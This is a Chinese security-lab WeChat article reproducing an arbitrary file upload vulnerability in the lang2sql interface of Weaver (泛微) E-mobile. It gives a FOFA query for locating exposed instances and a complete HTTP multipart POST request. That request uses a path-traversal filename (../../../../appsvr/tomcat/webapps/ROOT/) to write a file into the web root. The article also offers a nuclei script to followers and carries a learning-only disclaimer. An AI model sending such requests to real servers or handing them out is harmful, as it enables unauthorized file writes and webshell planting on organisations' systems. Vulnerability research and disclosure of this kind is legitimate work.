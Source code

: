 #  泛微 E-mobile lang2sql 任意文件上传

原创 blkx  [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

收录于合集 #漏洞复现 18个

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

泛微 E-mobile系统 lang2sql接口存在任意文件上传漏洞。

 **01**

 **空间搜索语法**

![]()

fofa

title="移动管理平台-企业管理"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

lang2sql接口存在任意文件上传漏洞，可穿越目录上传文件至根目录。

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /emp/lang2sql?client_type=1&lang_tag=1 HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36Content-Length: 204Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brConnection: closeContent-Type: multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK  
    ------WebKitFormBoundarymVk33liI64J7GQaKContent-Disposition: form-data; name="file";filename="../../../../appsvr/tomcat/webapps/ROOT/vyrnmpek.txt"  
    frobowmh------WebKitFormBoundarymVk33liI64J7GQaK--

漏洞存在响应包如下。  

![]()

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：泛微E-mobile1原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创创原创原创  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

